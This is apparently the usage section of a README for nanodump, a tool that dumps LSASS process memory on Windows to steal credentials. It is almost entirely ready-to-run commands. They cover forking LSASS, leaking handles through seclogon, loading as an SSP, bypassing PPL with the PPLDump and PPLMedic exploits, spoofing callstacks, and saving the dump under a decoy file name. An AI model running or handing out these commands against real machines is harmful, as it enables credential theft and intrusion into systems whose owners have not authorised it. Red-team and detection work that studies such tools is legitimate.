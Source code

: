 Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
nanodump --fork -w C:\lsass.dmp
```

Use the seclogon leak remote to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and downloading the dump with a valid signature:
```
nanodump -slr C:\Windows\notepad.exe --fork --valid
```

Download the dump with an invalid signature (default):
```
nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
nanodump -d -w C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
nanodump_ssp -w C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLDump exploit, duplicating the handle that csrss.exe has on LSASS:
```
nanodump_ppl_dump --d --write C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLMedic exploit, opening a low privileged handle to LSASS and then elevating it:
```
nanodump_ppl_medic -eh --write C:\Windows\Temp\lsass.dmp
```

Trick seclogon into opening a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
nanodump -sd
```

Open a handle to LSASS with a spoofed callstack and download the minidump with an invalid signature:
```
nanodump -sc
```

Use the Shtinkering techinque:
```
nanodump -sk
```
